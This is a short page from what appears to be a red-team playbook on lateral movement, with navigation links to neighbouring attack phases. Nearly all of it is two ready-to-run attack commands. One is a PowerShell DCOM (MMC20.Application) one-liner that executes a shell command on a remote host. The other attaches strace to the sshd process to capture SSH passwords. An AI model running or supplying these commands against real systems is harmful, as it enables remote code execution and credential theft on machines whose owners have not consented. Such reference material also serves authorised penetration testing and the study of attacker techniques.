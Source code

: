 # 4.4 Lateral Movement

## Table of Contents

- [Lateral Movement via DCOM](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md#Lateral-Movement-via-DCOM)
- [Sniffing SSH Passwords](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md#Sniffing-SSH-Passwords)

## Lateral Movement via DCOM

```c
"$a=[System.Activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application.1','<RHOST>'));$a.Document.ActiveView.ExecuteShellCommand('cmd',$null,'/c echo <TEXT> > C:\<FILE>.txt','7')"
```

## Sniffing SSH Passwords

```c
$ pgrep -l sshd
6235 sshd
$ strace -f -p 6235 -e trace=write -o capture
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)
- [4.2 Credential Dumping](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md)
- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)

### Next

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)
- [5.2 Situational Awareness](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md)
